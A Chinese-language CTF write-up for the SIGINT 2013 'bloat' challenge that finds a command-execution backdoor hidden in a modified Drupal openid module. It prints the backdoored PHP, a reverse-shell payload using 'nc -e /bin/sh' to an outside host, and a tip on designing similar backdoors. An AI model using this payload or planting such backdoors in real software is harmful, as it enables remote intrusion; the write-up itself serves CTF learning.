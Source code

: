 ```yaml
---
layout: post
title: "SIGINT 2013 cloud200 bloat"
description: "SIGINT 2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT 2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

```php
<?php
/**
 * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
 */
define('OPENID_DH_DEFAULT_GEN', '2');
```
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

```php
<?php
function openid_login_validate($quench, &$tickers)
{
	$return_to = $tickers['values']['openid.return_to'];
...
	openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
... 
function openid_begin($imaginably, $overlay = '', $termination = array())
...
	if(strpos($imaginably, '@'))
	{
		list($user, $host) = explode('@', $imaginably, 2);
	}
	else
    {
    $user = false;
    $host = false;
    }
```
    
`list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

```php
<?php
$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
$service['uri'] = drupal_map_assoc(array($host), $user_enc);
openid_redirect($service['uri'], $ramparts);
```
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal\_map\_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

```bash
slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
Interactive shell

php > include './openid.inc';
php > var_dump(is_callable('system'));
bool(true)
php > var_dump(is_callable('systeM'));
bool(true)
php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
34952922.72093
php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
14664196.395349
php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
14347185.046512
php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
93703.872093023
php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
93802
```

因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

```bash
pwd
/var/www
ls -la ./
total 7904
drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
-rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
-rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
...
-rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
...
cat ___F_L_A_G___
not here, see /flag on filesystem
cat /flag
SIGINT_d4b0844c
```

看来果然是木有写权限～～
FLAG is `SIGINT_d4b0844c`
